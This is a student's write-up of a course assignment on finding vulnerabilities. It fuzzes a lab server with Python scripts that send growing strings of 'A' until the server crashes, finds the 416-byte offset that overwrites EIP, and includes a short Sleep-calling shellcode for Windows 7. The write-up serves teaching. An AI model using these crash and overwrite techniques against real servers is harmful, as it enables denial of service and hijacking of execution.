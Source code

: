 ```yaml
---
layout: post
title:  "Vulnerability Discovery"
date:   2016-09-12  
comments:   true  
---
```


# Assignment 1, Vulnerability Discovery

Kaidi He		G31860481

### Part 1 of 2

First, to crash the server I did some modification on the codes provided by Prof.

```python
import sys, socket, time
 
host = sys.argv[1]
port = int(sys.argv[2])
 
length = 100
 
while (length < 1000):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	data1 = s.recv(1024)
	s.sendall("A" * length)
	data2 = s.recv(1024)
	s.close()
	time.sleep(2)
	print 'Recieved: ', repr(data1), repr(data2)
	length += 100
```

It turned out like this:

![1](1.png)

Thus, I knew that it crashed when input size was 500Bytes. Which means the least number of characters needed to cause the program to crash is less than 500 and more then 400. So I make the add-up pace slower to catch the exact number.

```python
import sys, socket, time
 
host = sys.argv[1]
port = int(sys.argv[2])
 
length = 400
 
while (length < 1000):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	data1 = s.recv(1024)
	s.sendall("A" * length)
	data2 = s.recv(1024)
	s.close()
	time.sleep(2)
	print 'Recieved: ', repr(data1), repr(data2)
	length += 1
```

And it turned out like this: ![2](2.png)

In this screenshot, we can see that when input size reach to **408 Bytes**(1.2) the server did crash but the EIP hasn't been entirly overwritten by the input. We need to keep adding the input length to find out the the least number of characters needed to overwrite all of EIP. After several experiments the least number of characters needed to overwrite all of EIP is **416**(1.2). (Becasue there is 4 Bytes EBP before 4 Bytes EIP).

After that, I modified the code again:

```python
import sys, socket, time
 
host = sys.argv[1]
port = int(sys.argv[2])
 
length = 408
 
while (length < 1000):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	data1 = s.recv(1024)
	s.sendall("A" * length + "B" * 8)	# Using "B" to show EIP length
	data2 = s.recv(1024)
	s.close()
	time.sleep(2)
	print 'Recieved: ', repr(data1), repr(data2)
	length += 100
```

The result was:

![3](3.png)

  Thus, we can see that the input begins at `0012F908`(1.3).![6](6.png)


 And the EIP stack address is `0012FAA4`(1.4)

![7](7.png)

To avoid this problem, programmers just need to implement a constriction of the length of user input.

---

### Part 2 of 2

#### 2.1 

**System Version**:

- Windows 7 Professional
- Service Pack 1
- English
- 32-bit Operating System

#### ![4](4.png)



#### 2.2

```assembly
mov ebx, 0x75eeba46	;the address of the Sleep function in kernel32.dll
mov eax, 0
mov ax, 4000
push eax
call ebx
```

#### 2.3

listing:

```
     1 00000000 66BB46BAEE75            mov ebx, 0x75eeba46
     2 00000006 66B800000000            mov eax, 0
     3 0000000C B8A00F                  mov ax, 4000
     4 0000000F 6650                    push eax
     5 00000011 66FFD3                  call ebx
```

 ![5](5.png)



### Reference:

> http://netsec.ws/?p=180